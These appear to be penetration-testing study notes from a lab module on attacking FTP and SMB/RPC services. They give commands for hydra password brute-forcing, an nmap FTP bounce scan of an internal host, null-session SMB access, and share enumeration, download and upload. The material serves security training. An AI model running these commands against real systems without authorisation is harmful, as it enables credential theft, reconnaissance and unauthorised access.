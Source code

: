 # Attacking Common Services

## **Attacking FTP**

| Command                                                                                       | Description                                        |
| --------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| ftp 192.168.2.142                                                                             | Connecting to the FTP server using the ftp client. |
| nc -v 192.168.2.142 21                                                                        | Connecting to the FTP server using netcat.         |
| hydra -l user1 -P /usr/share/wordlists/rockyou.txt [ftp://192.168.2.142](ftp://192.168.2.142) | Brute-forcing the FTP service.                     |

#### **FTP Bounce Attack**

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

```bash
dollarboysushil@htb[/htb]$ nmap -Pn -v -n -p80 -b <anonymous:password@10.10.110.213> 172.17.0.2Starting Nmap 7.80 ( <https://nmap.org> ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to <ftp://anonymous:password@10.10.110.213:21>
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

## **Attacking SMB & RPC**

SMB can be configured not to require authentication, which is often called a `null session`. Instead, we can log in to a system with no username or password

| Command                                                                                                        | Description                                                         |
| -------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------- |
| smbclient -N -L [//10.129.14.128](https://10.129.14.128)                                                       | Null-session testing against the SMB service.                       |
| smbmap -H 10.129.14.128                                                                                        | Network share enumeration using smbmap.                             |
| smbmap -H 10.129.14.128 -r notes                                                                               | Recursive network share enumeration using smbmap.                   |
| smbmap -H 10.129.14.128 --download "notes\note.txt"                                                            | Download a specific file from the shared folder.                    |
| smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"                                                     | Upload a specific file to the shared folder.                        |
|                                                                                                                |                                                                     |
|                                                                                                                |                                                                     |
| rpcclient -U'%' 10.10.110.17                                                                                   | Null-session with the rpcclient.                                    |
| ./enum4linux-ng.py 10.10.11.45 -A -C                                                                           | Automated enumeratition of the SMB service using enum4linux-ng.     |